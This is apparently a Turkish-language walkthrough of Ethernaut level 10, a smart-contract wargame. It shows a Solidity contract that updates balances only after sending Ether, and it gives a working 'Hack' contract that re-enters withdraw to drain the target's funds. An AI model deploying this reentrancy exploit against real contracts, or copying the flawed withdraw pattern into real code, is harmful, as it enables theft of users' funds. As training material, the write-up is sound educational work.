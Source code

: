 
# ETHERNAUT SORU 10: Re-entrancy

> The goal of this level is for you to steal all the funds from the contract.
> 
> Things that might help:
>
> -   Untrusted contracts can execute code where you least expect it.
> -   Fallback methods
> -   Throw/revert bubbling
> -   Sometimes the best way to attack a contract is with another contract.
> -   See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

Bu soruda Etherimizi saklayabileceğimiz, başkasının ne kadar sakladığını görebileceğimiz ve istediğimiz zaman yatırdığımız miktarı ya da daha azını kendi hesabımıza çekebileceğimiz bir kontrakt bulunmakta.

Bizim amacımız ise içerisinde başlangıçta bulunan 0.001 Etheri tüketerek kontraktın tüm Etherini boşaltmak. Bunu normalde yapamamamız lazım çünkü bu ether bizim hesabımıza tanımlı değil başkasına tanımlı ama koddaki bir açık sayesinde bunu çekmek mümkün. 

Öncelikle bakiye azaltma işleminin Etheri gönderdikten sonra gerçekleştiğine dikkat edelim. Bunun sayesinde Etheri birkaç defa isteyebilir ve bakiyemizden daha büyük bir meblağda Ether çekebiliriz. Bunu el ile yapamayacağımız için bir kontrakt yazmamuz gerekecektir. Bu kontrakt öncelikle küçük bir miktar Ether gönderip kendine bakiye oluşturacak, sonra bu bakiyeyi devamlı olarak çekecek. Burda dikkat etmemiz gereken husus ise kontraktın bakiyesinden daha çok bir miktar çekmeye kalkışmamamız. Çünkü eğer bunu yapar isek tüm fonksiyon çağırma yığını komple iptal(`revert`) edilebilir ve bu girişimimiz başarısız olarak sonuçlanır.

```solidity
// SPDX-License-Identifier: MIT
pragma  solidity  ^0.6.12;
import  "chall.sol";

contract Hack {
int counter =  1;
Reentrance victim;

constructor(address  payable cont)  public  payable{
victim= Reentrance(cont);
}

function pay()  public{
victim.donate{value:  1000000000000000}(address(this));
victim.withdraw(1000000000000000);
}

receive()  external  payable  {
if  (counter>0){
victim.withdraw(1000000000000000);
counter=0;
		}
	}
}
```
Bu kontraktı `1000000000000000` wei ile oluşturup `constructor`a hedef kontraktın adresini giriyoruz. Böylelikle saldırgan kontrakt hazırlanmış durumda oluyor. `pay` fonksiyonunu çağırdığımızda ise sırasıyla `donate` foksiyonu, `withdraw` fonksiyonu çalışıyor. Hedef kontraktan gelen Ether ise `receive` fonksiyonu çalıştırıyor. Bu fonksiyon sadece 1 kez daha `withdraw` işlemini gerçekleştiriyor ve bakiyesinden daha büyük bir miktar Ether istemiş oluyor. Daha bakiye eksiltme koduna gelinmediği için hedef kontrakt bunu veriyor. `counter` 0 olduğu için bu olay bir daha yaşanmıyacaktır ve hedef kontrakt `revert`i çağırmayacaktır.
